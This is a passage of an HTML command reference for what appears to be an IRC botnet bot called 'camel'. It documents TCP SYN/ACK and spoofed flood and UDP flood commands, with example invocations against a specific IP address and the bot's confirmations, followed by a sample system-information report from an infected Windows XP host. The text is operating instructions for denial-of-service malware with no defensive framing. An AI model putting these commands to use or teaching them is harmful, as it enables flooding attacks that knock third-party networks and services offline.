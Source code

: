 
<TR>
<TD>
tcpflood
</TD>
<TD>
tcp
</TD>
<TD>
.tcpflood &lt;method&gt; &lt;ip&gt; &lt;port&gt; &lt;length&gt; [-r]
</TD>
<TD>
Methods can be: syn, ack or random. TCP floods &lt;ip&gt;:&lt;port&gt; for &lt;length&gt; seconds.
If -r is specified, flood is spoofed.
</TD>
<TD>
&lt;<SPAN class="user">@moose</SPAN>&gt; .tcpflood ack 24.222.212.37 337 120 -r<BR />
&lt;<SPAN class="bot">camel</SPAN>&gt; [TCP]: Spoofed ack flooding: (24.222.212.37:337) for 120 seconds.
</TD>
</TR>


<TR>
<TD>
udpflood
</TD>
<TD>
udp<BR />
u
</TD>
<TD>
.udpflood &lt;ip&gt; &lt;packets&gt; &lt;size of&gt; &lt;delay&gt; [port]
</TD>
<TD>
UDPfloods &lt;ip&gt;:[port] (&lt;packets&gt;, all sizes of &lt;size of&gt;) with a &lt;delay&gt; second delay
</TD>
<TD>
&lt;<SPAN class="user">@moose</SPAN>&gt; .udpflood 24.222.212.37 1000 4096 100<BR />
&lt;<SPAN class="bot">camel</SPAN>&gt; [UDP]: Sending 1000 packets to: 24.222.212.37. Packet size: 4096, Delay: 100(ms).
</TD>
</TR>


<TR>
<TD>
udpstop
</TD>
<TD>
&nbsp;
</TD>
<TD>
.udpstop
</TD>
<TD>
Stops a UDP flood.
</TD>
<TD>
&lt;<SPAN class="user">@moose</SPAN>&gt; .udpstop<BR />
&lt;<SPAN class="bot">camel</SPAN>&gt; [UDP] UDP flood stopped. (1 thread(s) stopped)
</TD>
</TR>


[<B>Disk</b>]: 10,506,476KB total, 4,446,864KB free. [<B>OS</b>]: Windows XP (Service Pack 1) (5.1, Build 2600).
[<B>Sysdir</b>]: C:\WINDOWS\System32. [<B>Hostname</b>]: microsoft.com (207.46.134.155). [<B>Current User</b>]: Bill Gates.
[<B>Date</b>]: 02:Jun:2004. [<B>Time</b>]: 23:04:47. [<B>Uptime</b>]: 17d 8h 28m.